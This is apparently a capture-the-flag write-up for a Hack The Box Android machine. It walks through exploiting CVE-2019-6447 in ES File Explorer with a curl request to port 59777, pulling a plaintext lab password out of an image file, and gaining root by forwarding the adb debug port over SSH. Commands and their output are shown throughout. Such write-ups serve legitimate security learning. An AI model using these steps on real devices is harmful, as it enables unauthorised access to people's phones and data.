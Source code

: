 
Why all the info of the ports are mess up...
## Info
### Credentail
 User | Password          | Service | Note
------|-------------------|---------|-------
kristi|Kr1sT!5h@Rp3xPl0r3!|

## Path
### User
1. From the HTB page, we know it is an Android machine.
2. From nmap, it is running an Banana Studio SSH Server, which is an application to host a SSH on the android, and the port 5555 is open, which is usually an Android Debug port.
3. By trying, I found that we can use `adb` to connect to the machine through port `2222`, but it is offline immediately.
```
$ adb connect $ip:2222 && adb devices
connected to 10.10.10.247:2222
List of devices attached
10.10.10.247:2222       offline
```
4. There seems nothing we can do, so do a all-ports scan, and found some open ports runnign HTTP.
5. Google 'ES File Explorer Name Response' and found CVE-2019-6447. Although the nmap shows 'ES File Explorer Name Response' is running on 42135, since it don't work and the script suggest it should run on port 59777, we run it against port 59777 and get good luck.
```
$ curl -X POST $ip:59777 -H 'Content-Type: application/json' --data '{command: "getDeviceInfo"}'
{"name":"VMware Virtual Platform", "ftpRoot":"/sdcard", "ftpPort":"3721"}
```
6. By looking around the files use own written script `CVE-2019-6447.py`, I found `user.txt` in `/sdcard/`.
7. By `listPics`, it shows there is a `creds.jpg` at `/storage/emulated/0/DCIM/`, so download it and get the credential. Use the credential to login SSH and gain user.

### Root
1. Since `adb` server scan odd number port from 5555 to 5585 for the running devices to connect, we can use SSH to do port forwarding from our `localhost:5555` to the `localhost:5555` of the machine to let us use `adb` against the machine.
```
$ ssh -L 5555:localhost:5555 kristi@$ip -p 2222 -N
$ adb devices
List of devices attached
localhost:5555  device
emulator-5554   device
```
2. Connect to the machine using `adb`, and we gain root.
```
$ adb -s emulator-5554 shell
x86_64:/ # whoami
root
x86_64:/ # find / -name root.txt 2>/dev/null
/data/root.txt
```


